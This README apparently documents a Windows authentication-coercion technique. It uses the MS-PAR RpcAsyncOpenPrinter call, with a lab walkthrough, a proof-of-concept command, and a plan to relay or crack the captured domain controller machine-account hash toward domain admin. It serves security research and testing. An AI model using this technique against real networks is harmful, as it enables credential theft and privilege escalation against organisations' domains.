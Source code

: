 # MS-PAR - Remote call to RpcAsyncOpenPrinter (opnum 0)

## Summary

 - **Protocol**: [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0)

 - **Protocol UUID**: 76f03f96-cdfd-44fc-a22c-64950a001209

 - **Protocol version**: 1.0

 - **Function name**: [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a)

 - **Function operation number**: `0`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `76f03f96-cdfd-44fc-a22c-64950a001209`, version `1.0`) in order to perform calls to RPC functions of the `MS-PAR` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) and allows to call RPC functions of this protocol. It will then call the remote [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAsyncOpenPrinter('\\192.168.2.51\test\\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcAsyncOpenPrinter(
    [in] handle_t hRemoteBinding,
    [in, string, unique] wchar_t* pPrinterName,
    [out] PRINTER_HANDLE* pHandle,
    [in, string, unique] wchar_t* pDatatype,
    [in] DEVMODE_CONTAINER* pDevModeContainer,
    [in] DWORD AccessRequired,
    [in] SPLCLIENT_CONTAINER* pClientInfo
);
```

 - **hRemoteBinding**: An RPC explicit binding handle.

## References

 - Documentation of protocol [MS-PAR]: Print System Asynchronous Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0

 - Documentation of function `RpcAsyncOpenPrinter`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a